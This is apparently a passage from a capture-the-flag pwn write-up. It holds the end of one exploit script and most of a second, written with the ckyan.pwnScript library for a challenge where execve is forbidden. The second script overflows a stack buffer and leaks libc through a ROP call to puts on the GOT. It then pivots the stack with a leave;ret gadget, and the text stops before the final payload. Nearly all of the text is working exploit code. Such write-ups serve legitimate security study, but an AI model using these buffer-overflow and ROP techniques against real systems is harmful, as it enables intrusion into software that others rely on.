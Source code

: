 ```python
        flag_prefix=b'XAUTCTF'
        )


if __name__ == '__main__':
    exp()

```



禁execve

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

'''
GitHub:
    https://github.com/c0mentropy/ckyan.pwnScript
Help: 
    python3 exp.py --help
    python3 exp.py debug --help
    python3 exp.py remote --help
Local:
    python3 exp.py debug --file ./pwn
Remote:
    python3 exp.py remote --ip 127.0.0.1 --port 9999 [--file ./pwn] [--libc ./libc.so.6]
    python3 exp.py remote --url 127.0.0.1:9999 [--file ./pwn] [--libc ./libc.so.6]
'''

from ckyan.pwnScript import *

def exp():

    pandora_box.init_script()

    elf = pandora_box.elf
    libc = pandora_box.libc
    p = pandora_box.conn
    rop_attack = pandora_box.ropper_attack

    padding = 0x100 + 8
    main_addr = 0x40130C

    rop_attack.set_padding(padding=padding)

    ru(b'this task.\n')
    rop_attack.puts(target_addr=elf.got['puts'],
                    return_func_addr=main_addr,
                    is_send=True)

    libc_base = r7f() - libc.sym['puts']
    set_libc_base_and_log(libc_base)

    rop_attack.update_padding(padding=padding-8)
    
    stack_migration_addr = 0x404048
    leave_ret_addr = rop_attack.search_gadgets('leave;ret')
    
    ru(b'this task.\n')
    rop_attack.read(rbp_value=stack_migration_addr,
                    target_addr=stack_migration_addr,
                    return_func_addr=leave_ret_addr,
                    is_send=True)
```
